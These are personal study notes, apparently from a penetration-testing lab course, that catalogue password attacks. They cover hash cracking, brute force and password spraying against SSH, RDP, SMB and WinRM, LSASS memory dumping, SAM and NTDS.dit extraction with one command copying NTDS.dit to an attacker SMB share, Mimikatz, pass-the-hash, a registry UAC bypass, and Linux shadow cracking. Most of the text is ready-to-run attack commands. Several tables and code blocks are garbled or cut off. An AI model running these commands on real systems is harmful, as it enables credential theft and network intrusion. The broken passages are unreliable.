


# 1 tech

## 1.1 Password Cracking

```shell
/usr/share/wordlists/rockyou.txt 
```

## 1.2 John The Ripper

```shell
john --single passwd
```

will use GECOS info, passwd: r0lf:$6$ues25dIanlctrWxg$nZHVz2z4kCy1760Ee28M1xtHdGoy0C2cYzZ8l2sVa1kIa8K9gAcdBP.GI6ng/qA4oaMrgElZ1Cb9OeXO4Fvy3/:0:0:Rolf Sebastian:/home/r0lf:/bin/bash

```shell
john --wordlist=<wordlist_file> <hash_file>
```

```shell
john --incremental <hash_file>
```

brute force


The `--format` argument can be supplied to instruct JtR which format target hashes have.

### Cracking files

It is also possible to crack password-protected or encrypted files with JtR. Multiple `"2john"` tools come with JtR that can be used to process files and produce hashes compatible with JtR. The generalized syntax for these tools is:

```shell-session
capybaralalale@htb[/htb]$ <tool> <file_to_crack> > file.hash
```

```shell
capybaralalale@htb[/htb]$ locate *2john*

/usr/bin/bitlocker2john
/usr/bin/dmg2john
...
```

## 1.3 hashcat

identify the hashcat hash type by specifying the `-m` argument.

```shell
capybaralalale@htb[/htb]$ hashid -m '$1$FNr44XZC$wQxY6HHLrgrGX0e1195k.1'

Analyzing '$1$FNr44XZC$wQxY6HHLrgrGX0e1195k.1'
[+] MD5 Crypt [Hashcat Mode: 500]
[+] Cisco-IOS(MD5) [Hashcat Mode: 500]
[+] FreeBSD MD5 [Hashcat Mode: 500]
```

[Dictionary attack](https://hashcat.net/wiki/doku.php?id=dictionary_attack) (`-a 0`): hashcat -a 0 -m 0 e3e3ec5831ad5e7288241960e5d4fdb8 /usr/share/wordlists/rockyou.txt

```shell
hashcat -a 0 -m 0 1b0556a75770563578569ae21392630c /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
```

[Mask attack](https://hashcat.net/wiki/doku.php?id=mask_attack) (`-a 3`): 

| Symbol | Charset                             |
| ------ | ----------------------------------- |
| ?l     | abcdefghijklmnopqrstuvwxyz          |
| ?u     | ABCDEFGHIJKLMNOPQRSTUVWXYZ          |
| ?d     | 0123456789                          |
| ?h     | 0123456789abcdef                    |
| ?H     | 0123456789ABCDEF                    |
| ?s     | «space»!"#$%&'()*+,-./:;<=>?@[]^_`{ |
| ?a     | ?l?u?d?s                            |
| ?b     | 0x00 - 0xff                         |

Custom charsets can be defined with the `-1`, `-2`, `-3`, and `-4` arguments, then referred to with `?1`, `?2`, `?3`, and `?4`.

Let's say that we specifically want to try passwords which start with an uppercase letter, continue with four lowercase letters, a digit, and then a symbol. The resulting hashcat mask would be `?u?l?l?l?l?d?s`.

```shell
hashcat -a 3 -m 0 1e293d6912d074c0fd15844d803400dd '?u?l?l?l?l?d?s'
```

## 1.4 Cracking Protected Files

One way to tell whether an SSH key is encrypted or not, is to try reading the key with `ssh-keygen`.

```shell
capybaralalale@htb[/htb]$ ssh-keygen -yf ~/.ssh/id_ed25519 

ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIpNefJd834VkD5iq+22Zh59Gzmmtzo6rAffCx2UtaS6
```

As shown below, attempting to read a password-protected SSH key will prompt the user for a passphrase:

```shell
capybaralalale@htb[/htb]$ ssh-keygen -yf ~/.ssh/id_rsa

Enter passphrase for "/home/jsmith/.ssh/id_rsa":
```

### 2john

```bash
locate *2john*
```

常用工具：`ssh2john`, `office2john`, `pdf2john`, `zip2john`, `rar2john` 等

#### 1. SSH 私钥

```bash
ssh2john.py SSH.private > ssh.hash
john --wordlist=rockyou.txt ssh.hash
john ssh.hash --show
```

#### 2. Office 文档（Word/Excel/PPT）

```bash
office2john.py Protected.docx > office.hash
john --wordlist=rockyou.txt office.hash
john office.hash --show
```

#### 3. PDF 文件

```bash
pdf2john.py PDF.pdf > pdf.hash
john --wordlist=rockyou.txt pdf.hash
john pdf.hash --show
```

#### 4. ZIP 压缩包

```bash
zip2john archive.zip > zip.hash
john --wordlist=rockyou.txt zip.hash
john zip.hash --show
```

# 2 Remote Password Attacks

## 2.1 Network Services

### 核心工具概览

- **NetExec (`nxc`)**: 多协议枚举与爆破工具 (支持 WinRM, SMB 等)。
- **Hydra**: 传统的在线密码爆破工具。
- **Evil-WinRM**: WinRM 的专用 Shell 连接工具。
- **xFreeRDP**: Linux 下的 RDP 客户端。
- **Metasploit (MSF)**: 渗透测试框架，用于替代 Hydra 处理复杂的 SMB 爆破。
- **Smbclient**: SMB 文件交互客户端。

#### 1. WinRM (Windows Remote Management)

- **端口**: TCP 5985 (HTTP) / 5986 (HTTPS)

- **爆破工具**: NetExec

  ```shell
  # 爆破用户名和密码
  netexec winrm <Target-IP> -u user.list -p password.list
  ```

  *注: 如果看到 `(Pwn3d!)`，表示该用户极大概率可以执行系统命令。*

- **连接工具**: Evil-WinRM

  ```shell
  # 登录并获取 Shell
  evil-winrm -i <Target-IP> -u <username> -p <password>
  ```


#### 2. SSH (Secure Shell)

- **端口**: TCP 22

- **爆破工具**: Hydra

  ```shell
  # -L 指定用户列表，-P 指定密码列表
  hydra -L user.list -P password.list ssh://<Target-IP>
  ```

- **连接工具**: OpenSSH Client

  ```shell
  ssh user@<Target-IP>
  ```


#### 3. RDP (Remote Desktop Protocol)

- **端口**: TCP 3389

- **爆破工具**: Hydra

  ```shell
  # RDP 不喜欢高并发，Hydra 会自动调整线程
  hydra -L user.list -P password.list rdp://<Target-IP>
  ```

- **连接工具**: xFreeRDP

  ```shell
  # /v:目标 /u:用户 /p:密码
  xfreerdp /v:<Target-IP> /u:<username> /p:<password>
  ```


#### 4. SMB (Server Message Block)

- **端口**: TCP 445

- **爆破工具**:

  - **方案 A (Hydra)**:

    ```shell
    hydra -L user.list -P password.list smb://<Target-IP>
    ```

    *注: 旧版 Hydra 可能不支持 SMBv3，会报错 `invalid reply`。*

  - **方案 B (Metasploit)** - **推荐**:

    ```shell
    msfconsole -q
    use auxiliary/scanner/smb/smb_login
    set RHOSTS <Target-IP>
    set USER_FILE user.list
    set PASS_FILE password.list
    run
    ```

- **枚举共享**: NetExec

  ```shell
  # 验证凭据并列出共享文件夹 (--shares)
  netexec smb <Target-IP> -u "user" -p "password" --shares
  ```

- **连接/文件操作**: Smbclient

  ```shell
  # 连接指定共享目录 (如 C$ 或 SHARENAME)
  smbclient -U user \\\\<Target-IP>\\SHARENAME
  # 常用命令: ls (列出), get (下载), put (上传)
  ```

### 2.2 Spraying, Stuffing, and Defaults

#### 1. 密码喷洒 (Password Spraying)

- **原理**：与其对一个用户尝试所有密码（容易锁定账户），不如用**一个常用密码**（如 `ChangeMe123!`）去尝试**所有用户**。

- **适用场景**：新员工入职默认密码、弱口令环境、Active Directory。

- **工具**：`NetExec` (SMB/AD), `Burp Suite` (Web), `Kerbrute`。

- **命令示例 (NetExec)**

  ```shell
  # 对整个网段的用户列表尝试同一个密码
  netexec smb 10.100.38.0/24 -u user.list -p 'ChangeMe123!'
  ```


#### 2. 凭据填充 / 撞库 (Credential Stuffing)

- **原理**：利用互联网上泄露的**用户名:密码**对（Database Leaks），去尝试登录其他服务。

- **核心逻辑**：用户倾向于在不同平台复用相同的密码。

- **工具**：`Hydra`。

- **命令示例 (Hydra)**：

  Bash

  ```shell
  # 注意参数 -C 用于指定 "用户:密码" 格式的列表文件
  hydra -C user_pass.list ssh://10.100.38.23
  ```


#### 3. 默认凭据 (Default Credentials)

- **原理**：管理员部署设备（路由器、防火墙、数据库）后忘记修改出厂默认密码。

- **常见目标**：Linksys, Tomcat, Jenkins, IoT 设备等。

- **工具**：

  - **Default Credentials Cheat Sheet** (Python工具):

    ```shell
    pip3 install defaultcreds-cheat-sheet
    creds search linksys
    ```

  - **在线列表**: RouterPasswords, Datarecovery.com 等。

  - **产品文档**: 手册中通常包含默认设置说明。

# 3 Extracting Passwords from Windows Systems

## 3.1 核心架构与流程

Windows 的本地交互式登录是通过多个组件协同工作的。

简易流程：

WinLogon (处理交互) -> LogonUI (接收输入) -> Credential Provider (获取凭据) -> LSASS (验证核心) -> SAM 或 AD (数据对比)

### 1. 关键组件解析：

- **WinLogon (Windows Logon Process):**
  - **职责**：受信任的系统进程，负责管理安全相关的用户交互。
  - **功能**：处理登录/注销、加载用户配置、锁定工作站、处理 SAS (Ctrl+Alt+Del)。
  - **动作**：它是唯一能拦截键盘登录请求的进程。它启动 `LogonUI` 显示登录界面，并将凭据传递给 LSASS。
- **LSA (Local Security Authority):**
  - **职责**：受保护的子系统，管理本地安全策略、用户登录、审计日志生成以及用户名与 SID 的转换。
  - **范围**：在域控制器 (DC) 上，LSA 管理整个域的策略（存储在 AD 中）。
- **LSASS (LSA Subsystem Service):**
  - **定位**：Windows 身份验证的**守门人 (Gatekeeper)**。
  - **路径**：`%SystemRoot%\System32\Lsass.exe`
  - **职责**：执行安全策略、验证用户、写入事件日志。

### 2. LSASS 内部的认证包 (DLLs)

LSASS 加载不同的 DLL 来处理不同类型的认证：

| **DLL 名称**     | **描述**                                                     |
| ---------------- | ------------------------------------------------------------ |
| **Lsasrv.dll**   | LSA 服务器服务，包含 `Negotiate` 函数（决定使用 NTLM 还是 Kerberos）。 |
| **Msv1_0.dll**   | 用于**本地机器登录**（非域环境）或没有自定义认证的情况。     |
| **Kerberos.dll** | 处理基于 Kerberos 的认证（域环境主要协议）。                 |
| **Samsrv.dll**   | SAM 服务器，存储本地账户和策略。                             |
| **Netlogon.dll** | 处理网络登录服务。                                           |
| **Ntdsa.dll**    | 用于在注册表中创建新记录（涉及 AD 交互）。                   |


### 3. 凭据存储位置 (攻击目标)

攻击者在该阶段的主要目标是提取存储在磁盘或内存中的哈希值。


#### A. 本地认证：SAM 数据库 (Security Account Manager)

- **用途**：存储本地用户账号和密码哈希。
- **哈希类型**：通常为 LM 或 NTLM 哈希。
- **文件位置**：`%SystemRoot%\system32\config\SAM`
- **注册表挂载**：`HKLM\SAM`
- **权限要求**：需要 `SYSTEM` 权限才能访问。
- **SYSKEY**：Windows NT 4.0 引入的机制，用于部分加密 SAM 文件，防止简单的离线破解。


#### B. 域认证：NTDS.dit (Active Directory)

- **用途**：当机器加入域后，凭据由域控制器 (DC) 验证。
- **文件位置**：`%SystemRoot%\ntds.dit` (仅在域控制器上)。
- **存储内容**：整个域的用户账户（哈希）、组、计算机账户、GPO 等。
- **同步机制**：在所有 DC 之间同步（只读 DC 除外）。


#### C. 客户端缓存：Credential Manager (凭据管理器)

- **用途**：存储用户保存的网站、RDP 或网络共享的凭据。
- **存储方式**：按用户配置文件隔离，加密存储。
- **位置**：`C:\Users\[Username]\AppData\Local\Microsoft\[Vault/Credentials]\`

------


### 4. 关键命令速查 (Cheatsheet 精选)

根据模块附带的 Cheatsheet，以下是针对本章节相关的攻击与提取命令：


#### 连接与探测

- **RDP 连接**: `xfreerdp /v:<ip> /u:<user> /p:<pass>`
- **WinRM 连接**: `evil-winrm -i <ip> -u <user> -p <pass>`
- **SMB 连接**: `smbclient -U user \\\\<ip>\\SHARENAME`


#### 本地密码提取 (Windows Local Password Attacks)

- **寻找含密码的文件**: `findstr /SIM /C:"password" *.txt *.ini *.config`

- **导出 SAM/System Hive (用于离线提取)**:

  DOS

  ```shell
  reg.exe save hklm\sam C:\sam.save
  reg.exe save hklm\system C:\system.save
  reg.exe save hklm\security C:\security.save
  ```

- **解析导出的 SAM**: `python3 secretsdump.py -sam sam.save -system system.save LOCAL`

- **LSASS 内存转储 (Dump)**:

  ```shell
  rundll32 C:\windows\system32\comsvcs.dll, MiniDump <lsass_pid> C:\lsass.dmp full
  ```

  *(注：需先用 `Get-Process lsass` 获取 PID)*

- **解析 LSASS Dump**: `pypykatz lsa minidump /path/to/lsass.dmp`

- **复制 NTDS.dit (卷影复制技术)**:

  ```shell
  vssadmin CREATE SHADOW /For=C:
  cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
  ```

#### 远程密码攻击

- **SMB 密码喷洒**: `netexec smb <ip> -u user.list -p password.list`
- **提取 SAM (远程)**: `netexec smb <ip> --local-auth -u <user> -p <pass> --sam`
- **提取 NTDS (远程)**: `netexec smb <ip> -u <user> -p <pass> --ntds`
- **哈希传递 (PtH)**: `evil-winrm -i <ip> -u Administrator -H "<passwordhash>"`


## 3.2 Attacking LSASS

**LSASS (Local Security Authority Subsystem Service)** 是 Windows 的核心进程，负责执行安全策略和处理用户认证。关键点在于它会在**内存**中缓存用户的凭据（哈希、Kerberos 票据，有时甚至是明文）。


### 1. 创建内存转储 (Dumping LSASS)

目标是将 LSASS 进程的内存保存为 `.dmp` 文件，以便离线提取凭据。

- **方法 A：任务管理器 (GUI)**

  1. 打开任务管理器 -> 详细信息。
  2. 右键 `lsass.exe` -> **创建转储文件 (Create dump file)**。
  3. 文件通常保存在 `%temp%` 目录下。

- **方法 B：命令行 (CLI - Rundll32)** 此方法更灵活（无需 GUI），但容易被杀毒软件拦截。

  1. **查找 PID**:

     - CMD: `tasklist /svc | findstr lsass`
     - PowerShell: `Get-Process lsass`

  2. **执行转储**:

     ```
     rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
     ```


### 2. 离线提取凭据 (Analyzing Dump)

将 `.dmp` 文件传回攻击机 (Linux)，使用 **Pypykatz** (Mimikatz 的 Python 实现) 进行解析。sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support transfer .

- **命令**:

  ```
  pypykatz lsa minidump /path/to/lsass.dmp
  ```


### 3. 关键输出字段

Pypykatz 会解析出不同认证包的数据：

- **MSV**: 包含 **NT Hash**。
  - *利用*: 拿到 Hash 后使用 Hashcat (`-m 1000`) 破解，或进行哈希传递攻击。
- **WDIGEST**: 旧协议，可能包含 **明文密码** (Cleartext)。
  - *注意*: 现代 Windows 默认禁用，若启用则直接显示密码。
- **Kerberos**: 包含域名、用户名、票据数据。
- **DPAPI**: 包含 MasterKey，可用于解密 Chrome 密码、Outlook 凭据等。


### 总结流程

1. **获取 PID** (目标机器)。
2. **Dump LSASS** (目标机器 -> 生成 .dmp)。
3. **传输文件** (目标机器 -> 攻击机)。
4. **解析文件** (Pypykatz)。
5. **破解/利用** (Hashcat 或 直接使用明文)。


## 3.3 Attacking Windows Credential Manager

#### 1. 核心概念

**Credential Manager (凭据管理器)** 是 Windows 用于安全存储用户凭据（如网站密码、RDP、网络共享、Outlook 等）的功能。

- **存储机制**：凭据存储在用户的 `AppData` 目录下的 Vault（保险库）文件夹中。
- **加密方式**：使用 **AES** 密钥加密，而 AES 密钥由 **DPAPI** (Data Protection API) 保护。
- **存储位置示例**：`%UserProfile%\AppData\Local\Microsoft\Vault\`


#### 2. 枚举凭据 (Enumeration)

在无需管理员权限的情况下，我们可以查看当前用户保存了哪些凭据（但看不到明文密码）。

- **命令**:

  ```
  cmdkey /list
  ```

- **关键信息**:

  - **Target**: 凭据适用的目标（如 `Domain:interactive=SRV01\mcharles` 或 `WindowsLive:target=...`）。
  - **Type**: `Generic` (通用) 或 `Domain Password` (域密码)。
  - **Persistence**: `Local machine persistence` 表示重启后依然存在。


#### 3. 攻击方式 A：利用凭据 (Impersonation)

如果我们只想利用凭据执行命令，而不需要知道明文密码（例如用于横向移动），可以使用 `runas` 配合 `/savecred`。

- **原理**：利用系统保存的凭据自动通过认证。

- **命令**:

  ```
  runas /savecred /user:DOMAIN\User cmd.exe
  ```

  *(执行后会弹出一个新的 CMD 窗口，拥有该用户的权限)*

Using computerdefaults.exe:

```
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /d "" /f && reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /ve /t REG_SZ /d "cmd.exe" /f && start computerdefaults.exe
```

This will automatically move me to the administrator profile.

Press enter or click to view image in full size


#### 4. 攻击方式 B：提取明文 (Extraction)

如果需要获取明文密码，则需要使用工具解密 DPAPI 保护的数据。通常需要管理员权限或调试权限。

- **工具**: **Mimikatz**

- **命令流程**:

  ```
  mimikatz.exe
  privilege::debug       # 提升权限
  sekurlsa::credman      # 从 LSASS 内存中列出凭据管理器内容
  ```

- **其他工具**: `LaZagne`, `DonPAPI`, `SharpDPAPI`。


## 3.4 Attacking Active Directory and NTDS.dit

### 1. 基础概念

- **认证变化**：一旦 Windows 加入域，默认通过**域控制器 (DC)** 验证身份，不再默认使用本地 SAM 数据库（除非显式指定 `Hostname\User` 或 `.\User`）。
- **NTDS.dit**：AD 的核心数据库文件，存储所有域用户、密码哈希等信息。位置通常在 `%systemroot%\ntds\NTDS.dit`。
- **前提条件**：通常需要内网立足点（Foothold）或通过端口转发访问。

------


### 2. 对AD账户进行暴力破解

bash

```bash
# 单用户 + 密码字典
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt

# 用户列表 + 密码列表
netexec smb 10.129.201.57 -u user.list -p password.list
```

**注意**：这种攻击会产生大量日志（Event ID 4776），容易被检测，也可能触发账户锁定策略。

------

### 3. 获取 NTDS.dit 文件

NTDS.dit 是 AD 的核心数据库，存储所有域用户的密码哈希，位置：`%systemroot%\ntds\NTDS.dit`

**前提条件**：需要 **Domain Admin** 或 **Administrators** 权限

#### 方法一：手动提取

```bash
# 1. 使用获取的凭据连接到DC
evil-winrm -i 10.129.201.57 -u bwilliamson -p 'P@55w0rd!'

# 2. 检查用户权限
net localgroup
net user bwilliamson  # 确认是否在 Domain Admins 组

# 3. 创建卷影副本（VSS）
vssadmin CREATE SHADOW /For=C:
# 记录输出的 Shadow Copy Volume Name，如：\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

# 4. 从卷影副本复制 NTDS.dit
cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

# 5. 传输到攻击机（需要先在攻击机设置SMB共享）
cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

**在攻击机上设置SMB共享**：

```bash
python3 smbserver.py -smb2support CompData /home/user/Documents/
```

#### 方法二：NetExec 一键提取（推荐）

```bash
# 使用 ntdsutil 模块直接dump
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil

# 或使用 --ntds 参数
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

------

### 4. 提取和破解哈希

**从 NTDS.dit 提取哈希**（需要同时有 SYSTEM 文件）：

~~~bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```

**输出格式**：
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
用户名:RID:LM哈希:NT哈希
~~~

**用 Hashcat 破解 NTLM 哈希**：

```bash
# 破解单个哈希
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

# 查看已破解结果
hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt --show
```

------

### 5. Pass the Hash（哈希传递攻击）

**原理**：NTLM 认证协议允许直接使用哈希进行认证，无需明文密码。当无法破解哈希时可用此方法。

bash

```bash
# 使用哈希登录（不需要明文密码）
evil-winrm -i 10.129.201.57 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

**应用场景**：横向移动、权限提升

## 3.5 Credential Hunting in Windows

### 一、概述

**Credential Hunting（凭据搜寻）** 是在获得目标 Windows 系统访问权限后，通过详细搜索文件系统和各种应用程序来发现凭据的过程。

**核心思路**：根据目标系统的用途来决定搜索方向。例如，如果是 IT 管理员的工作站，就要考虑管理员日常工作中哪些任务需要凭据（SSH连接设备、访问文件服务器、管理数据库等）。

------

### 二、常用搜索关键词

在搜索凭据时，可以使用以下关键词：

```
类别关键词
密码相关password, passwords, pwd, pass, passkey, passphrase
用户相关username, user, users, user account, login
凭据相关creds, credentials, key, keys
配置相关configuration, config, dbcredential, dbpassword
```

------

### 三、搜索工具和方法

#### 1. Windows 搜索（GUI）

如果有图形界面访问权限，可以直接使用 Windows 搜索功能：

- 在搜索栏输入关键词（如 "password"）
- 系统会搜索 OS 设置和文件系统中匹配的文件和应用

------

#### 2. LaZagne 工具

**功能**：自动从各种应用程序中提取不安全存储的凭据

**支持的模块**：

```
模块描述
browsers从浏览器提取密码（Chrome、Firefox、Edge、Opera等，支持35种浏览器）
chats从聊天应用提取密码（Skype等）
mails从邮箱搜索密码（Outlook、Thunderbird）
memory从内存dump密码（KeePass、LSASS）
sysadmin从系统管理工具配置文件提取密码（OpenVPN、WinSCP等）
windows提取Windows特定凭据（LSA secrets、Credential Manager等）
wifidump WiFi凭据
```

**使用方法**：

~~~cmd
# 运行所有模块
C:\Users\bob\Desktop> start LaZagne.exe all

# 带详细输出运行
C:\Users\bob\Desktop> start LaZagne.exe all -vv
```

**示例输出**：
```
########## User: bob ##########

------------------- Winscp passwords -----------------

[+] Password found !!!
URL: 10.129.202.51
Login: admin
Password: SteveisReallyCool123
Port: 22
~~~

**传输方法**：如果使用 xfreerdp 连接，可以直接复制粘贴文件到 RDP 会话中。

------

#### 3. findstr 命令

**功能**：在多种文件类型中搜索指定模式

```cmd
# 搜索包含 "password" 的各类配置文件
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

**参数说明**：

- `/S` - 在当前目录和所有子目录中搜索
- `/I` - 忽略大小写
- `/M` - 只打印包含匹配项的文件名

------

#### 4. Windows Credential Manager

```cmd
# 列出存储的凭据
cmdkey /list

# 打开凭据管理器GUI（备份/恢复凭据）
rundll32 keymgr.dll,KRShowKeyMgr

# 使用保存的凭据运行程序
runas /savecred /user:<username> cmd
```

------

### 四、其他重要凭据存放位置

#### 网络共享和域环境

```
位置说明
SYSVOL 共享中的组策略可能包含明文密码（GPP漏洞）
SYSVOL 共享中的脚本登录脚本可能硬编码密码
IT 部门共享文件夹管理脚本、配置文件
web.config 文件开发机器和IT共享上的Web配置
unattend.xmlWindows无人值守安装文件
AD用户/计算机描述字段管理员有时会在描述中记录密码
```

#### 用户系统和文件

```
位置说明
KeePass 数据库.kdbx 文件（需要破解主密码）
pass.txt, passwords.docx, passwords.xlsx用户可能创建的密码文件
SharePoint企业文档共享平台
浏览器存储Chrome、Firefox、Edge 保存的密码
```

------

### 五、浏览器凭据提取

浏览器是凭据搜寻的重点目标，因为很多用户会保存登录信息。

**主流浏览器凭据都是加密的**，但可以用工具解密：

- `firefox_decrypt` - 解密 Firefox 密码
- `decrypt-chrome-passwords` - 解密 Chrome 密码
- LaZagne 的 browsers 模块支持 35 种浏览器

------

### 六、网络共享搜索工具

```cmd
# Snaffler - 搜索网络共享中的敏感文件
snaffler.exe -s

# PowerShell - 搜索SMB共享
Invoke-HuntSMBShares -Threads 100 -OutputDirectory c:\Users\Public
```


# 4 Extracting Passwords from Linux Systems

## 4.1 Linux Authentication Process

### 一、Linux 认证机制

#### PAM（Pluggable Authentication Modules）

Linux 使用 **PAM** 作为主要认证机制，核心模块如 `pam_unix.so` 或 `pam_unix2.so` 位于：

```
/usr/lib/x86_64-linux-gnu/security/  (Debian系)
```

**PAM 功能**：

- 用户信息管理
- 认证验证
- 会话管理
- 密码更改

当用户执行 `passwd` 命令修改密码时，PAM 负责处理和存储密码信息。

------

### 二、关键认证文件

#### 1. /etc/passwd 文件

**权限**：所有用户可读（world-readable）

**格式**：7个字段，用冒号分隔

```
htb-student:x:1000:1000:,,,:/home/htb-student:/bin/bash
字段含义示例值
1用户名htb-student
2密码x
3用户ID (UID)1000
4组ID (GID)1000
5GECOS（用户信息）,,,
6家目录/home/htb-student
7默认Shell/bin/bash
```

**密码字段的含义**：

- `x` → 密码存储在 `/etc/shadow` 文件中（现代系统标准做法）
- 实际哈希值 → 非常老的系统可能直接存储哈希（安全风险）
- 空 → 无需密码即可登录

**安全漏洞**：如果 `/etc/passwd` 被错误配置为可写，攻击者可以删除 root 的密码字段：

~~~bash
# 修改前
root:x:0:0:root:/root:/bin/bash

# 修改后（删除密码字段）
root::0:0:root:/root:/bin/bash

# 结果：su 命令无需密码即可切换到 root
su
# 直接获得 root shell，无密码提示
```

---

### 2. /etc/shadow 文件

**权限**：仅 root 可读（解决 passwd 文件世界可读的安全问题）

**格式**：9个字段，用冒号分隔
```
htb-student:$y$j9T$3QSBB6CbHEu...SNIP...f8Ms:18955:0:99999:7:::
```

| 字段 | 含义 | 示例值 |
|------|------|--------|
| 1 | 用户名 | htb-student |
| 2 | 密码哈希 | $y$j9T$... |
| 3 | 最后修改时间 | 18955（距1970-01-01的天数） |
| 4 | 最小修改间隔 | 0（天） |
| 5 | 最大有效期 | 99999（天） |
| 6 | 警告期 | 7（天） |
| 7 | 不活动期 | - |
| 8 | 过期日期 | - |
| 9 | 保留字段 | - |

**密码字段特殊值**：
- `!` 或 `*` → 用户无法使用 Unix 密码登录（但可用 Kerberos/SSH密钥等）
- 空 → 无需密码

---

### 3. 密码哈希格式
```
$<id>$<salt>$<hashed>
```

**哈希算法ID对照表**：

| ID | 算法 | 安全性 |
|----|------|--------|
| 1 | MD5 | ❌ 弱，易破解 |
| 2a | Blowfish | 中等 |
| 5 | SHA-256 | ✓ 较强 |
| 6 | SHA-512 | ✓ 强 |
| sha1 | SHA1crypt | 中等 |
| y | Yescrypt | ✓✓ 很强（现代Debian默认） |
| gy | Gost-yescrypt | ✓✓ 很强 |
| 7 | Scrypt | ✓✓ 很强 |

**示例**：
```
$6$xyz$abc123...  → SHA-512 哈希
$y$j9T$abc...     → Yescrypt 哈希
$1$salt$hash...   → MD5 哈希（容易破解！）
~~~

------

#### 4. /etc/security/opasswd 文件

**用途**：存储用户的旧密码，防止密码重用

**权限**：仅 root 可读

```bash
sudo cat /etc/security/opasswd

# 输出示例
cry0l1t3:1000:2:$1$HjFAfYTG$qNDkF0zJ3v8ylCOrKB0kt0,$1$kcUjWZJX$E9uMSmiQeRh4pAAgzuvkq1
```

**攻击价值**：

- 旧密码可能使用弱哈希算法（如 MD5）
- 用户往往重复使用相似密码
- 识别密码模式有助于猜测当前密码

------

### 三、破解 Linux 凭据

#### 完整流程

**Step 1：复制认证文件**（需要 root 权限）

```bash
sudo cp /etc/passwd /tmp/passwd.bak
sudo cp /etc/shadow /tmp/shadow.bak
```

**Step 2：合并文件（unshadow）**

```bash
# unshadow 是 John the Ripper 自带工具
unshadow /tmp/passwd.bak /tmp/shadow.bak > /tmp/unshadowed.hashes
```

**Step 3：使用 Hashcat 破解**

```bash
# -m 1800 = SHA-512 (Unix)
hashcat -m 1800 -a 0 /tmp/unshadowed.hashes rockyou.txt -o /tmp/unshadowed.cracked
```

**或使用 John the Ripper**：

```bash
john --wordlist=rockyou.txt /tmp/unshadowed.hashes

# 查看结果
john --show /tmp/unshadowed.hashes
```

------

#### Hashcat 模式对照




------

### 四、安全检查要点

#### 配置错误检查

```bash
# 检查 /etc/passwd 权限（应该是 644）
ls -la /etc/passwd

# 检查 /etc/shadow 权限（应该是 640 或 600）
ls -la /etc/shadow

# 检查是否有用户密码直接存在 passwd 中
awk -F: '$2 != "x" && $2 != "*" && $2 != "!" {print $1}' /etc/passwd

# 检查空密码用户
awk -F: '$2 == "" {print $1}' /etc/shadow
```

#### 常见安全问题

```
问题风险检查方法
/etc/passwd 可写可删除root密码ls -la /etc/passwd
密码存在 passwd 中所有用户可见哈希检查第2字段是否为x
使用弱哈希算法易被破解检查 11
1 (MD5)

空密码无需认证awk -F: '$2==""'
```

------

### 五、命令速查

```
用途命令
查看 passwdcat /etc/passwd
查看 shadowsudo cat /etc/shadow
查看旧密码sudo cat /etc/security/opasswd
合并文件unshadow passwd.bak shadow.bak > unshadowed.hashes
Hashcat 破解 SHA-512hashcat -m 1800 -a 0 hashes.txt wordlist.txt
Hashcat 破解 MD5hashcat -m 500 -a 0 hashes.txt wordlist.txt
John 破解john --wordlist=rockyou.txt unshadowed.hashes
查看 John 结果john --show unshadowed.hashes
```


## 4.2 Credential Hunting in Linux

git clone https://github.com/unode/firefox_decrypt.git

# 5 Extracting Passwords from the Network

## 5.1 Credential Hunting in Network Traffic

虽然现代应用大多使用 TLS 加密敏感数据，但仍存在以下情况可能导致凭据明文传输：

- **遗留系统**：老旧系统未升级
- **配置错误**：服务未正确配置加密
- **测试环境**：未启用 HTTPS 的测试应用

这些漏洞为攻击者提供了从明文流量中获取凭据的机会。

------

### 常见协议对照表

```
明文协议加密版本用途
HTTPHTTPS网页传输
FTPFTPS/SFTP文件传输
SNMPSNMPv3网络设备监控管理
POP3POP3S邮件接收
IMAPIMAPS邮件访问管理
SMTPSMTPS邮件发送
LDAPLDAPS目录服务查询
